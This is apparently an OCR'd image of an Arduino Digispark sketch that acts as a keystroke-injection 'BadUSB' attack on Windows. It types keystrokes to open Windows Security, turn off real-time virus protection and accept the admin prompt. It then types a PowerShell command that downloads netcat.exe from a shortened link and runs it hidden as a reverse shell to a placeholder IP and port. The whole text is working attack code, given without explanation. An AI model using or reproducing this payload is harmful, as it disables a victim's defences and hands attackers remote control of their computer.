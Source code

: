 
&lt;pre&gt;
#include "DigiKeyboard.h"

void setup()
{
  DigiKeyboard.delay(1000);                        // sleep => 1 s
  DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT); // press key => S + GUI
  DigiKeyboard.delay(1000);                        // sleep => 1 s
  DigiKeyboard.print("virus &amp; threat protection"); // writing => virus &amp; threat protection
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER); // press key => ENTER
  DigiKeyboard.delay(5000);              // sleep => 5s
  DigiKeyboard.sendKeyStroke(43);        // press key => TAP
  DigiKeyboard.sendKeyStroke(43);        // press key => TAP
  DigiKeyboard.sendKeyStroke(43);        // press key => TAP
  DigiKeyboard.sendKeyStroke(43);        // press key => TAP
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT); // press key => Y + ALT
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT); // press key => F4 + ALT
  DigiKeyboard.delay(500);
  // --------------------------------------------------------------------
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // press key => GUI + R
  DigiKeyboard.delay(700);
  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe &lt;ip&gt; &lt;port&gt; -e powershell.exe"); // writing => powershell .......
  DigiKeyboard.sendKeyStroke(KEY_ENTER);                                                                                                      // press key => ENTER
}

void loop()
{
}
&lt;/pre&gt;
